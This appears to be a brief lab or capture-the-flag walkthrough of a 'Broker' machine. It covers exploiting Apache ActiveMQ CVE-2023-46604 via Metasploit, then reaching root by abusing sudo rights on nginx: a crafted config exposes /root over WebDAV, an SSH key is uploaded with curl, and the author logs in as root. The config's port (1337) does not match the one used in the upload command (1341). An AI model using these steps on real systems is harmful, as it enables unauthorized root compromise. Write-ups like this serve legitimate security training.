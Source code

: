 Nmap discovers ActiveMQ 5.15.15 which has a vulnerability for RCE in unsafe deserialization practices.
https://github.com/evkl1d/CVE-2023-46604/tree/main

Metasploit:
```
multi/misc/apache_activemq_rce_cve_2023_46604
```

After gaining shell sudo -l reveals:
```
User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

Next step is simple as writing custom config file to access /root.
```nginx
user       root; 
worker_processes  5; 
worker_rlimit_nofile 8192;

events {
  worker_connections  1024;
}

http {
  server {
    listen       1337;
    server_name  _;

    location / {
       root /root;
       autoindex on; # lists files
       dav_methods PUT; # allows to upload files
    }
  }
}
```

Generating new ssh key pair, upload .pub to the victim and ssh-in from attacker machine:
```
ssh-keygen -t rsa -C "broker"
curl -X PUT http://10.129.230.87:1341/.ssh/authorized_keys --upload-file broker.pub
ssh -i broker root@10.129.230.87
```

